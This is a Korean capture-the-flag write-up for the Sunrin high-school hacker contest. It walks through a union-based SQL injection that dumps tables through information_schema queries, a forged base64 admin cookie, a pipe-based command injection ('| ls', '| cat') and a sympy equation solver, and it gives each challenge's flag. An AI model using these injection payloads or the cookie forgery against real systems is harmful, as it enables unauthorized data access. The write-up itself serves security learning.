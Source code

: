고등해커 Write_Up (Young Wave)
============================
## Legendary feather
----------------------

### 문제 해결 흐름

> #### 문제 링크를 들어가 보니, 1 2 3 페이지가 존재했고, url 창에 no=숫자 형식으로 사이트가 바뀜
  >> #### 여기서 no=를 이용하여 풀어야겠다고 생각을하게 됨
   >>> #### 그래서 각종 or and * + 등을 넣어본 결과 and가 먹힌다는 정보 발견!

#### 위 과정을 통해 정보를 얻고, and와 sql문을 이용하여 테이블 이름, 컬럼 이름, 컬럼 개수를 알아내 문제를 해결함

### 문제 풀이

+ ### and 입력 가능한지 확인
![and 입력 시도](./선린의털(1).PNG)

#### 위 사진과 같이 and가 먹히는걸 확인할 수 있다.

+ ### 컬럼 개수 알아 내기
![컬럼 갯수 알아내기](./선린의털(2).PNG)

#### 위 사진과 같이 order by를 이용하여 컬럼 개수를 알아냈다.

> #### no=3 and 3 order by 1
> 
> #### no=3 and 3 order by 2
> 
> #### no=3 and 3 order by 3 여기서 부터 오류

#### 따라서 컬럼 개수는 2개

![테이블 이름 알아내기](./선린의털(3).PNG)

> #### no=3 union select 1,info from information_schema.processlist order by 1

#### 쿼리 출력을 이용하여 테이블명이 contents

![컬럼 이름 알아내기](./선린의털(4).PNG)

> #### no=3 union select 1, group_concat(column_name) from information_schema.columns where table_name="contents" order by 1

#### contents 테이블에서 group_concat으로 컬럼 이름을 한줄로 묶어서 출력 
#### (order by로 no을 정렬해줘서 원하는 정보인 컬럼 이름 출력)

![fleg 알아내기!](./선린의털(5).PNG)

> #### no=3 union select 1, group_concat(content) from contents order by 1

#### 이렇게 content에 있는 내용을 전부 합쳐 no 1에 맞춰주고 정렬하여 출력해줬다.

### flag : Sunrin{Baby_integer_based_sql_injection}

## Basic login
--------

### 문제 해결 흐름
> #### sunrin 으로 로그인하여 f12로 쿠키 확인 
> > #### username값 확인 (base64 인코딩 되어있음)
> >> #### admin (base64로 인코딩)해서 username 값에 넣기

### 문제 풀이

![쿠키 확인](./Basic_Login(1).PNG)

----------------------------------

#### 개발자 도구로 username 변수 값 확인

#### base64 디코딩 해보니 sunrin

![flag 얻기](./Basic_Login(2).PNG)

-------------------------------

#### admin을 base64로 인코딩하여 username 변수에 대입

#### 새로고침 -> clear

### flag : Sunrin{C0okie_f0rgery_1s_e4sy}

## nslookup
--------

### 문제 해결 흐름
> #### 이 문제와 비슷한 문제를 본적이 있음
> > #### 리눅스 명령어를 활용하여 풀어야 한다는 것을 바로 느낌
> >> #### 리눅스 명령어를 활용해 풀기

![ls 입력](./nslookup(1).PNG)

-----------------------------

> #### 아무 값 | ls

#### | 이용해서 파일을 한번 봤는데 flag 파일 발견

![flag 확인](./nslookup(2).PNG)

> #### 아무 값 | cat flag 파일 이름

### flag : Sunrin{easy_command_injection_in_the_webapp}

## Easy Math Game
--------

### 문제 해결 흐름
> #### nc로 접속해보니 일반적인 방정식 문제였다.
> > #### 퍼블을 위해 파이썬으로 방정식 풀이 코드 작성하여 문제 풀기

![문제확인](./Easy_Math_Game(1).PNG)

#### 위와 같이 문제 확인

![코드 테스트](./Easy_Math_Game(2).PNG)

#### 계수 입력하면 풀어주는 코드

```{.python}
from sympy import Symbol, solve, Eq

for i in range(8):
    x = Symbol('x')
    y = Symbol('y')

    a = []
    for i in range(6):
        a.append(int(input()))

    e1 = Eq(a[1]*y, -a[0]*x + a[2])
    e2 = Eq(a[4]*y, -a[3]*x + a[5])

    print(solve([e1, e2], x, y))

while True:
    x = Symbol('x')
    y = Symbol('y')

    a = []
    for i in range(3):
        a.append(int(input()))
    
    eqn = Eq(a[0]*x**2 + a[1]*x + a[2], 0)
    print(solve(eqn, x))
```

![flag 확인](./Easy_Math_Game(3).PNG)

### flag : Sunrin{Th1s_1s_B4sic_m4th_g4m3}